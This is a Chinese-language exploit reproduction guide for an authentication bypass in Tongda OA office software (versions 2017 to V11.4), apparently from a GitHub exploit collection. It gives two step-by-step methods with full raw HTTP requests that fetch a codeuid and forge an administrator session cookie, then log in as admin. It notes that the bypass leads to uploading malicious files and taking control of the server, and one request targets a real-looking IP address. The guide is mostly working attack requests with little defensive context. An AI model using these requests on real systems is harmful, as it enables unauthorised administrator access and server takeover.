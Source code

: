 # 一、漏洞简介
通达OA（Office Anywhere网络智能办公系统）是中国通达公司的一套协同办公自动化软件。通达OA < 11.5.200417存在一个认证绕过漏洞，利用该漏洞可以实现任意用户登录。攻击者可以通过构造恶意攻击代码，成功登录系统管理员账户，继而在系统后台上传恶意文件控制网站服务器。
# 二、影响版本
-  通达OA 2017-通达OA V11.4
# 三、漏洞复现
## 第一种利用方法
**1. 获取code_uid**
get请求获取codeuid
```
/general/login_code.php
/ispirit/login_code.php
```
![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/8b231d89-f140-444c-ac1d-0bed22d56480)
![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/580c34b8-aeab-452e-b20f-b313ff00ce2f)

**2. 获取cookie**

post请求使用上一步获取的codeuid替换，当响应中status字段为1时代表获取cookie成功

```
POST /logincheck_code.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

CODEUID={546DF670-FBDB-251D-D4AA-CD5C6C976592}&UID=1
```
![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/5c800cea-0667-4243-8f07-c16abaa164e0)

**3. 利用获取到的cookie登录系统**

利用上一步获取到的cookie替换，成功登录系统
```
GET /general/index.php?is_modify_pwd=1 HTTP/1.1
Host: xxx.xxx.xxx.xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=afni33n5if6hi6s26i3b2h79j3;
Connection: close
```

## 第二种利用方法
**1. 获取codeuid**
```
/ispirit/login_code.php
/ispirit/login_code.php
```
![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/64d7f095-98d4-4d47-91db-2aca6453a536)

**2. 验证codeuid**
当响应status为1时，代表验证成功。
```
POST /general/login_code_scan.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

codeuid={8E41DD10-C3C3-A664-2249-2A2B2DF23619}&source=pc&uid=1&type=confirm&username=admin
```
![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/0e74cb05-1f25-44e6-91dc-d1acd9d7f563)

**3. 获取cookie**
当响应status为1时，代表获取cookie成功
```
/ispirit/login_code_check.php?codeuid={EED2B9FE-F865-DCF1-0E8D-3326AE163F6D}
```
![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/b3da5499-96df-4c57-90bc-6d06838535f5)

**4. 利用获取到的cookie登录系统**
```
GET /general/index.php?is_modify_pwd=1 HTTP/1.1
Host: 1.14.47.145:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2l86fav5r9d65gjcub1abh49n1;
Connection: close
```
 ![image](https://github.com/xiaokp7/GUIEXPDB/assets/105373673/d2514f62-2f8a-4bb8-a683-41d74340591c)
# 四、工具利用
<img width="600" alt="image" src="https://github.com/xiaokp7/GUIEXPDB/assets/105373673/9376adfe-e30b-459d-b913-a154fdaa52f1">



